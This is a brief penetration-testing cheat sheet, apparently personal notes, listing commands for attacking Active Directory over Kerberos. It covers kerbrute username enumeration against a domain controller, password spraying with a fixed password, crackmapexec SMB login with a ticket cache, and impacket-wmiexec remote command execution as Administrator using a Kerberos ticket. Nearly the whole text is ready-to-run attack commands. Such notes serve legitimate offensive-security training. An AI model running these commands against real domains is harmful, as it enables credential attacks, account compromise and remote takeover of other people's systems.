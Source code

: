# kerbrute
https://github.com/ropnop/kerbrute

## enumerate users using wordlist
```bash
kerbrute userenum --dc $IP -d DOMAIN.local $FILE
kerbrute -users /usr/share/seclists/Usernames/Names/names.txt -dc-ip 10.11.1.20 -domain svcorp.com
```

## password spray users from user list file
```bash
kerbrute passwordspray --dc $IP -d DOMAIN.local users password123
```

# crackmapexec kerberos authentication with ticket
## include ticket environment variable
the hostname is very important.
```bash
export KRB5CCNAME=$(pwd)/User.ccache
crackmapexec smb fqdn.domain.local -u User --kerberos
```

# impacket kerberos commands
## wmiexec
```bash
export KRB5CCNAME=$(pwd)/Administrator.ccache
impacket-wmiexec -k -no-pass domain.local/Administrator@fqdn.domain.local
```
